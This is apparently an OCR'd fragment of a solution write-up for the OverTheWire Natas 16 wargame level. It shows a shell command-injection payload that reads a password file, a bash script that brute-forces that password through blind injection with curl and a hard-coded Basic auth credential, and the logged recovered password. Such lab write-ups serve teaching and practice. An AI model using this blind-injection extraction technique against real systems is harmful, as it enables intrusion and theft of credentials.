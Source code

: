 ```php
</body>
</html>
```

$\(grep -E ^8.\* /etc/natas\_webpass/natas17\)hackers

```bash
passwordlenght=32
CurrentChar=0
password=""
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        curl_output=$(curl -s "http://natas16.natas.labs.overthewire.org/?needle="%"24"%"28grep+-E+"%"5E${password}${letter}.*+"%"2Fetc"%"2Fnatas_webpass"%"2Fnatas17"%"29hackers&submit=Search" -H "Authorization: Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA==")
        if echo $curl_output | grep -q -v "hackers"; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            echo "[+] Password: $password"
            continue 2
        fi
    done
done
```

```text
[+] Password: 8
[+] Password: 8P
[+] Password: 8Ps
[+] Password: 8Ps3
[+] Password: 8Ps3H
[+] Password: 8Ps3H0
[+] Password: 8Ps3H0G
[+] Password: 8Ps3H0GW
[+] Password: 8Ps3H0GWb
[+] Password: 8Ps3H0GWbn
[+] Password: 8Ps3H0GWbn5
[+] Password: 8Ps3H0GWbn5r
[+] Password: 8Ps3H0GWbn5rd
[+] Password: 8Ps3H0GWbn5rd9
[+] Password: 8Ps3H0GWbn5rd9S
[+] Password: 8Ps3H0GWbn5rd9S7
[+] Password: 8Ps3H0GWbn5rd9S7G
[+] Password: 8Ps3H0GWbn5rd9S7Gm
[+] Password: 8Ps3H0GWbn5rd9S7GmA
[+] Password: 8Ps3H0GWbn5rd9S7GmAd
[+] Password: 8Ps3H0GWbn5rd9S7GmAdg
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQ
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQN
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNd
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdk
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkh
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhP
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```
